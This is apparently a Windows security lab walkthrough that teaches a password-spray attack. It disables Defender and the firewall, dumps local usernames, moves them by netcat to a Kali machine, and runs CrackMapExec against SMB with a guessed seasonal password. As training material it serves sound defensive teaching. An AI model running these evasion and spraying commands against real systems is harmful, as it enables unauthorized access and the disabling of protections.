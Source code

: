 
# Password Spray

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Let's get started by opening a Terminal as Administrator

![](attachments/Clipboard_2020-06-12-10-36-44.png)

Now, let's open a command Prompt:

![](../AppLocker/attachments/cmd-command-prompt.png)

C:\Windows\system32> `cd \tools`

C:\Tools> `200-user-gen.bat`

It should look like this:

![](attachments/Clipboard_2020-06-16-10-26-22.png)

Now, we will need to start PowerShell to run DumpUsers.ps1. For simplicity, we will use the script that gets a list of usernames from the windows host and saves it to the C:\temp\UserList.txt file.


C:\Tools> `powershell`

PS C:\Tools> `Set-ExecutionPolicy Unrestricted`

PS C:\Tools> `.\DumpUsers.ps1`

It should look like this:

![](attachments/Clipboard_2020-06-16-10-37-09.png)

Next we are going to password spray against SMB (port 445) which we know is open by the results of previous NMAP scan.
For now lets transfer a list of usernames to our kali machine by netcat. To do it we need the ip of our machine and run the next commands. Cancel out netcat (Ctrl-C) after 3 seconds.

![](attachments/kali-netcat.png)

Now switch to command prompt on windows machine. 

![](../AppLocker/attachments/cmd-command-prompt.png)

Disable firewall.

![](../AppLocker/attachments/disable-firewall.png)

And transfer the file to kali.

![](attachments/win-netcat.png)

We will use the tool CrackMapExec for password spray attack over smb. The tool supports other protocols like ssh, winrm, ldap etc. The command looks like this - `cme smb <IP> -u users -p Winter2020 --shares`.

![](attachments/cme-result.png)

We can see that the user Cristopher was succesfully authenticated to our target machine.

Now we need to clean up and make sure the system is ready for the rest of the labs:

PS C:\Tools> `exit`

C:\Tools> `user-remove.bat`

![](attachments/Clipboard_2020-06-16-10-39-16.png)




